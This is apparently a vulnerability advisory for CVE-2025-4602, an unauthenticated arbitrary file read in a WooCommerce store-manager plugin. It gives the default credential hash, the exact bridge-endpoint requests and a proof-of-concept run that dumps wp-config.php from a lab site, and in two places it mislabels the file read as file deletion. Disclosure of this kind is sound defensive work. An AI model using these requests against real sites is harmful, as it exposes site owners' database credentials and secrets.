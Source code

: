 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Read'
date = 2025-05-23T05:10:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "eMagicOne"]
+++
### CVE-2025-4602

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file deletion operations on the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and read arbitrary files from the WordPress root or any accessible directory.


## Reproduction
A POC [CVE-2025-4602.py](https://github.com/d0n601/CVE-2025-4602/blob/master/CVE-2025-4602.py) is provided to demonstrate reading the `wp-config.php` file from the server.

```
python3 CVE-2025-4602.py https://lab1.hacker --file wp-config.php
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc"}
[+] Got session key: 38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc
[*] Getting file...
[*] File Content: <?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://developer.wordpress.org/advanced-administration/wordpress/wp-config/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'lab1' );

/** Database username */
define( 'DB_USER', 'homestead' );

/** Database password */
define( 'DB_PASSWORD', 'secret' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
...
...
...
...
...
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage
The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```




### Arbitrary File Read
With a valid session key, an attacker can read a files using the `get_file` task:


```http
POST /?connector=bridge&task=get_file&key=<session_key>&entity_type=.&filename=wp-config.php

```

**Relevant code:**
`classes/class-emosmconnectorcommon.php` (lines ~2219+):

```php
2219	        /** Get file */
2220	        private function get_file() {
2221	                if ( ! $this->shop_cart->isset_request_param( 'entity_type' ) ) {
2222	                        $this->generate_error( $this->br_errors['entitytype_param_missing'] );
2223	                }
2224	
2225	                if ( ! $this->shop_cart->isset_request_param( 'filename' ) ) {
2226	                        $this->generate_error( $this->br_errors['filename_param_missing'] );
2227	                }
2228	
2229	                $entity_type = (string) $this->shop_cart->get_request_param( 'entity_type' );
2230	                $filename    = (string) $this->shop_cart->get_request_param( 'filename' );
2231	
2232	                if ( empty( $entity_type ) ) {
2233	                        $this->generate_error( $this->br_errors['entitytype_param_empty'] );
2234	                }
2235	
2236	                if ( empty( $filename ) ) {
2237	                        $this->generate_error( $this->br_errors['filename_param_empty'] );
2238	                }
2239	
2240	                $file_path = $this->shop_cart->get_file( $entity_type, $filename );
2241	
2242	                if ( $file_path && $this->shop_cart->file_exists( $file_path ) ) {
2243	                        header( 'Content-Type: image/jpeg' );
2244	                        header( 'Content-Length: ' . $this->shop_cart->file_size( $file_path ) );
2245	                        readfile( $file_path );
2246	                } else {
2247	                        $this->generate_error( 'File is missing' );
2248	                }
2249	        }
```


File deletion in `class-emosmcwoocommerceoverrider.php` (lines ~380+)::
```php
426	        public function get_file( $folder, $filename ) {
427	                $folder   = trim( $folder, '/' );
428	                $filename = ltrim( $filename, '/' );
429	                if ( empty( $folder ) ) {
430	                        return $this->get_shop_root_dir() . $filename;
431	                }
432	
433	                return $this->get_shop_root_dir() . "$folder/$filename";
```
**Result:** The file is returned from the server.
